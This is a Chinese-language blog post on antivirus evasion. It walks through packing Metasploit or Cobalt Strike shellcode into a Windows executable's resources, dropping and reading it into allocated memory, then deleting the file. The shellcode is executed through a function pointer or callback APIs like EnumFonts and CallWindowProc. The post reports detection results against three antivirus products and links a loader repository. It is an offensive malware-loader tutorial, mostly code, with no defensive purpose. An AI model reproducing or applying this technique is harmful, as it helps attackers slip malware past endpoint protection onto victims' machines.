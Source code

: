 ```yaml
---
layout: post
title: 资源分离免杀
tags: bypass,windows
---
```


# 资源分离免杀

## 起因

很多文章都写到了分离免杀，采用的方法是将 shellcode 和 执行函数分离，开辟内存空间复制 shellcode，然后执行函数执行。改进版就是远程加载，让木马去下载存储在远程服务器的 shellcode。

昨天看 BackStab 代码的时候，它有一个将 ProcEXP.sys 放入资源文件，加载驱动前写入到磁盘的操作。这种操作其实就可以替代远程加载，只需要上传一个 exe 文件，在读取 shellcode 前先在当前目录释放一个 bin 文件，文件内容复制到开辟好的内存空间后再删除该文件，随后调用执行函数执行。

## 过程

### 加载资源

首先肯定是添加资源，随便添加什么资源，到时候再改就好了

![image-20210629164331246](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164331246.png)

在项目目录下新建一个 resources 文件夹，存上 MSF 或 CS 生成的 shellcode 文件：

![image-20210629164528797](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164528797.png)

打开 资源文件(.rc)，用编辑方式打开：

![image-20210629164646700](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164646700.png)

修改资源文件

```c
#include "resource.h"

IDR_SYS RCDATA "..\\resources\\1.bin"
```

同样 resource.h 也应该修改

```
#define IDR_SYS                      101
```

### 资源释放

释放资源有两步，首先要定位资源并得到资源的大小和内容，然后写入文件。

第一步需要用到 4 个 API：

```c
// 确定资源位置，获得资源句柄
HRSRC FindResourceA(
  HMODULE hModule,	// NULL 代表当前进程或模块
  LPCSTR  lpName,	// 资源名称，MAKEINTRESOURCE(ID)，这里就是 MAKEINTRESOURCE(101)
  LPCSTR  lpType	// 资源类型，这里是RT_RCDATA，Application-defined resource (raw data)
);

//指定的资源加载到内存当中，获得句柄
HGLOBAL LoadResource(
  HMODULE hModule,	// Null 代表当前进程或模块
  HRSRC   hResInfo	// 资源句柄
);

// 锁定内存中的资源，返回指向资源数据的内存指针
LPVOID LockResource(
  HGLOBAL hResData
);

// 资源大小
DWORD SizeofResource(
  HMODULE hModule,
  HRSRC   hResInfo
);
```

这样就可以获得内存中资源数据的指针和资源大小。

第二步就是新建和写入文件

```c
HANDLE CreateFileW(
  LPCWSTR               lpFileName,
  DWORD                 dwDesiredAccess,	// GENERIC_WRITE
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,	// FILE_ATTRIBUTE_NORMAL
  DWORD                 dwCreationDisposition,	// CREATE_ALWAYS
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);

BOOL WriteFile(
  HANDLE       hFile,
  LPCVOID      lpBuffer,	// LockResource 返回的指针
  DWORD        nNumberOfBytesToWrite,	// SizeofResource 返回的大小
  LPDWORD      lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

### 文件写入到内存并删除

将释放出来的文件写入到内存中，用的还是老方法，开辟内存空间后打开文件，用 ReadFile 读到开辟好的内存空间中

```c
//申请内存空间
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

//打开文件仍然用 CreateFileW，修改参数为打开并读取
CreateFileW("1.bin", GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL)

// 获取文件大小
DWORD GetFileSize(
  HANDLE  hFile,
  LPDWORD lpFileSizeHigh
);

// 读取文件到指定的缓冲器中
BOOL ReadFile(
  HANDLE       hFile,
  LPVOID       lpBuffer,	// 开辟的内存空间指针
  DWORD        nNumberOfBytesToRead,
  LPDWORD      lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

删除操作用的 DeleteFileW

```c
DeleteFileW(Path);
```

### 执行

执行的方法就很多了，经典执行：

```c
typedef void(__stdcall* CODE) ();
CODE code = (CODE)lpAddress;
code();
```
回调函数执行,[参考](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)：

```c
EnumFonts(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode, 0);

EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char *)shellcode, 0, 0);

LineDDA(10, 11, 12, 14, (LINEDDAPROC)(char *)shellcode, 0);

EnumFontFamilies(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode,0);

EnumDisplayMonitors((HDC)0,(LPCRECT)0,(MONITORENUMPROC)(char *)shellcode,(LPARAM)0);

GrayString(0, 0, (GRAYSTRINGPROC)(char *)shellcode, 1, 2, 3, 4, 5, 6);

CallWindowProc((WNDPROC)(char *)shellcode, (HWND)0, 0, 0, 0);

EnumResourceTypes(0, (ENUMRESTYPEPROC)(char *)shellcode, 0);
```

## 结果

杀软1检测：

![image-20210629174907927](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629174907927.png)

杀软2检测：

![image-20210629175207180](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629175207180.png)

杀软3检测：

![image-20210629180554436](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629180554436.png)

## 后续

更改远程连接的地址只需要在编译前替换 resources 文件夹下的 bin 文件即可。

这里用的是 msf 生成的默认 shellcode 文件，被杀软检测出具备 MSF 特征，只需要对这个 bin 做处理就可以了，还可以更换执行函数来绕过杀软的检测，根据查杀的情况不同修改。

代码地址：https://github.com/Ryze-T/Bypass_frames